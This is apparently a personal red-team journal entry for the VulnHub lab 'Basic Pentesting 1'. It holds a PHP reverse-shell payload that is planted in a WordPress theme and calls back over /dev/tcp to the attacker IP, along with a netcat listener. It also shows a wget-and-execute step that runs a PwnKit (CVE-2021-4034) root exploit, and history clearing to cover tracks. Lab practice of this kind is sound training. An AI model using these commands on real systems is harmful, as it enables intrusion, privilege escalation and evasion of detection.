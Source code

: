 
## Red Team Journal – Day 002 – June 15, 2025

### 🗂️ Engagement Overview
**Target:** Basic Pentesting 1 (VulnHub)  
**Box IP:** 192.168.56.102  
**Attacker IP:** 192.168.56.10  
**Methodology:** Web enumeration → WordPress admin access → reverse shell → privesc via CVE-2021-4034 (PwnKit)  

---

### 🎯 Objectives
- [x] Regain WordPress admin access
- [x] Inject PHP reverse shell via theme
- [x] Get reverse shell to Kali
- [x] Upgrade to interactive TTY
- [x] Enumerate for privilege escalation vectors
- [x] Exploit PwnKit to gain root
- [x] Clean up artifacts

---

### 🚪 Initial Foothold

**Method:** PHP Reverse Shell via `404.php` in theme
  
**Payload used:**

<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.10/4444 0>&1'"); ?>

Triggered with:

curl "http://vtcsec/secret/wp-content/themes/twentyseventeen/404.php"

**Listener setup on Kali:**

nc -lvnp 4444

Result:
Gained shell as www-data.

**Enumeration Highlights**

uname -a
cat /etc/os-release
ls /home
sudo -l
find / -perm -4000 -type f 2>/dev/null

**Key Findings:**

    OS: Ubuntu 16.04.3 LTS

    Kernel: 4.10.0-28-generic

    Local user: marlinspike

    No sudo access from www-data

    SUID binary found: /usr/bin/pkexec (used by PwnKit)

**Privilege Escalation**

Exploit: CVE-2021-4034 (PwnKit)
Approach: Static binary hosted on attacker machine

On Kali:

python3 -m http.server 8000

On Target:

cd /tmp
wget http://192.168.56.10:8000/PwnKit -O PwnKit
chmod +x PwnKit
./PwnKit

Result:

root@vtcsec:/tmp# whoami
root

**Cleanup Actions**

rm /tmp/PwnKit
history -c

Root shell obtained.
No persistence or root flag grabbed — purpose was shell lifecycle practice.


**Tools Utilized**

    nmap, gobuster, wpscan

    curl, netcat, wget, python3

    Metasploit (for ProFTPD attempt)

    Static PwnKit binary

**Key Takeaways**

    Always check /wp-login.php and XML-RPC for exposed WordPress logins

    Use encoded curl payloads to bypass broken command injection

    Static precompiled binaries save time vs. build errors (GLIBC mismatch)

    Do not use fg without setting proper terminal (stty raw -echo)

    After shell access, use enumeration before brute forcing — privilege escalation often lives in defaults

🔁 Next Steps

Try linpeas.sh or les.sh for automated enum

Explore cron, PATH, and wildcard-based privesc options

Check /home/marlinspike for reused creds

Build a modular PHP reverse shell dropper

Document exploitation workflow into reusable SOPs

<!--stackedit_data:
eyJoaXN0b3J5IjpbLTY1MTc1MDY2OSwtMTUwNTI3ODYxMSwxNj
Q2NDQ0NTg3XX0=
-->
